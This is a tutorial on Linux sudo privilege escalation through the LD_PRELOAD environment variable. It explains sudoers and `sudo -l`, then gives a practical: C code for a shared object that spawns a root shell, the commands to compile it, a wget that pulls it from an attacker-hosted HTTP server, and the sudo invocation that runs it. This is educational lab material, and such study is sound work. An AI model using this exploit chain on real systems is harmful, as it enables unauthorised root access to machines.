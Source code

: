 # Background on Sudo

Sudo allows users to temporarily elevate their privileges to those of the `root` user. Sudo was introduced as a safer way to escalate privileges by mitigating the risks associated with unrestricted access to the entire machine.

Modifying the sudoers file at `/etc/sudoers` allows you to assign specific or all commands that a user has permission to run as sudo. To edit the sudoers file, use the 'visudo' text editor to parse the file for syntax errors and prevent complications with the Sudo command.

```
sudo visudo
```

For a user to edit the sudoers file, they must be in the sudo group.

```
sudo usermod -aG sudo [username]
```

You can check the commands your user has permission to run as sudo with:

```
sudo -l
```

Running this command on my machine outputs the following:

```
Matching Defaults entries for kayem on kali:
    env_reset, env_keep+=LD_PRELOAD

User kayem may run the following commands on kali:
    (ALL) NOPASSWD: /usr/bin/find
    (ALL) NOPASSWD: /usr/bin/less
    (ALL) NOPASSWD: /usr/bin/nano
```

`env_reset` is an option that defaults environment variables before running the command with sudo; unless the environment variable is added to the list of preserved variables with the `env_keep` option. In the example above, the `LD_PRELOAD` environment variable is retained when resetting the environment.

To restrict `LD_PRELOAD` from loading in arbitrary shared libraries, dynamic linkers ignore the environment variable if the Real UserID (RUID) differs from the effective UserID (UID). The Real UserID represents the user who executed the sudo command; the effective user ID is the user ID under which the process runs. For instance, when running processes with sudo, the RUID will be 1000 whilst the uid will be 0 (root), so the environment variable will be ignored. 

# Practical

Using the `sudo -l` command, I discover that the user `kayem` has access to three programs: find, less, and nano. We can abuse the `LD_PRELOAD` environment variable by uploading the following C program to spawn a root shell.

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
```
Compile the C program into an object file for execution.
```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```
Host a python3 HTTP server to transfer the object file from our machine to the target machine.
```
sudo python3 -m http.server 8000
```
Download the file on our target machine.
```
wget http://[IP address]:8000/shell.so
```

Finally, modify the LD_PRELOAD variable to point to our malicious program and run the program we have permission to run with sudo, in this case, `find`.

```
sudo LD_PRELOAD=/home/kayem/shell.so find
```
